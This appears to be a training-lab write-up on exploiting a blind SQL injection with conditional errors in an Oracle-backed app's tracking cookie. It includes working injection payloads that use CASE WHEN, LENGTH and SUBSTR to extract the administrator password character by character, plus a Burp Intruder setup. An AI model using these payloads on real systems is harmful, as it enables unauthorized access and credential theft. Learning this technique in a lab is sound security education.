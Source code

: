 # Lab: Blind SQL injection with conditional errors
## Lab
This lab contains a __blind SQL injection__ vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

 The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind __SQL injection__ vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Hint

This lab uses an Oracle database. For more information, see the SQL injection cheat sheet. 

## Solution

When a request containing a TrackingId cookie is processed, the application determines whether this is a known user using an SQL query like this: 
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO'
```
Because in this lab the application does not return any different result although the TrackingId submitted had been modified, so to determine the conditions we check are TRUE or FALSE, we use `CASE WHEN condition THEN command(which cause the server return TRUE/FALSE) ELSE command(which cause the server return FALSE/TRUE) END` to determine the truth of that condition.
Inject some conditions after TrackingId:
```SQL
' || (SELECT CASE WHEN (1=1) THEN '' ELSE TO_CHAR(1/0) END FROM dual) || '
' || (SELECT CASE WHEN (1=2) THEN '' ELSE TO_CHAR(1/0) END FROM dual) || '
```

When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' || (SELECT CASE WHEN (1=1) THEN '' ELSE TO_CHAR(1/0) END FROM dual) || ''
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' || (SELECT CASE WHEN (1=2) THEN '' ELSE TO_CHAR(1/0) END FROM dual) || ''
```
In first case the error don't appear because 1=1 is TRUE and query return `''` and concatenating TrackingId with empty string, the TrackingId is not changed so the query returns TRUE ID. In second case the error appear because 1=2 is FALSE and `TO_CHAR(1/0)`(error: divide-by-zero) is called cause the server return FALSE.

Thanks for topic we know there is a table is `users` contain two columns are `username` and `password`. In `username` column have `administrator` user. 

Modify that addition condition to:
```SQL
' || (SELECT CASE WHEN (LENGTH(password)>1) THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || '
```
When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO' || (SELECT CASE WHEN (LENGTH(password)>1) THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || ''
```
Why we modified like that?
To find out password, fisrt we need check the length of password with condition `LENGTH(password) > 1` if that length greater than 1 the error doesn't appear. Continue to increase the length to 2, 3, 4, ... until the error appear in returned result, that's the password length we look for!
Why we have to use this query:

After increase length to 20 (LENGTH(password) > 20) the error appaer. So we confirm that password length is 20.
Next step is brute force each value in each index of password. To do that we need use `SUBSTRING()` function:
```SQL
'|| (SELECT CASE WHEN SUBSTR(password,1,1)>'a' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||'
```
To put it simply `SUBSTRING(string,index,length)` function extract `string` from `index` with `length` is number of characters. Addition condition above take first character in password compare with character 'a', if the first character of password is 'a' the error doesn't display. But no one does it manually :v
Send this request into Intruder and modify payload:
```SQL
'|| (SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||'
```
When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO'|| (SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator')||''
```

And select attack type is Cluster bomb.The first payload type is numbers from 1 to 20 and step is 1, the second payload type is simple list and we add characters a-z and 0-9, combimed with rep _Welcome back_ in tab Options.

> administrator - fijenshrhencbzrle0oy